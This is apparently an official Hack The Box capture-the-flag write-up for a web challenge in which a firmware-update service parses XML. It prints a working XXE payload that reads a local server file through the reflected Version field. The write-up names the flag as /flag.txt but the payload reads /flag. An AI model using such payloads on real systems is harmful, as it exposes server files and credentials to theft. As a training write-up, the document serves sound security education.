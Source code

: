 ![img](https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />        <font size="10">Jailbreak</font>

9<sup>th</sup> May 2024 / D24.xx.xx

​Prepared By: makelaris

​Challenge Author(s): makelaris

​Difficulty: <font color=green>Very Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- XXE

## Description

* The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port? The flag is located in /flag.txt

## Skills Required
* Understanding of HTTP request handling.
* Familiarity with XML documents structure.

## Skills Learned
* Performing XML external entity (XXE) injection.


## Application overview
![img](./assets/overview.png)

When we visit the site we're greeted with an application handling firmware updates. This application accepts XML data over POST requests and processes them to initiate supposed firmware updates on a satellite system. 

Looking at the sample XML document, we can deduce that the extracted `Version` value from the XML input is used to construct a response message, so as the name of the challenge suggest let's use some common XXE payloads using the XML structure provided.

![img](./assets/version.png)
 
Using the following payload we get the flag.

```xml
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>
```
